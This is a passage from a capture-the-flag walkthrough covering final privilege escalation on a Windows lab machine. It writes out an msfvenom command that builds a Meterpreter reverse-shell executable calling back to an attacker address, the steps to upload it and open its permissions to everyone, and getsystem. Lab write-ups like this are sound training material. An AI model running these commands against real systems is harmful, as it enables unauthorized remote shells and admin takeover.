





Now, the final step is to see what kind of privileges the user, mayor has. Let's create another payload and upload it to the target machine, then we can try to run it as mayor:
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.9.87.151 LPORT=6500 -f exe -o rTCP.exe
```
```bash
upload rTCP.exe .
```
We also need to make sure that rTCP.exe can be run by everyone, let's use icacls for that:
```bash
icacls rTCP.exe /grant Everyone:(F)
```
Now, we are ready to configure our multi handler first and then run_as modules:




After running the last module, we'll receive a meterpreter session and if we check the user id and privileges, we'll see that we have admin privileges:



Now, we can go to Desktop and look for the root flag:



Since we are admin, we can try to become the system by using ```getsystem``` command:



That was a long journey and I hope you enjoyed this walkthrough.
Thank you for reading.

[<= Go Back to BOF Menu](bufferoverflows.md)

[<= Go Back to Main Menu](index.md)
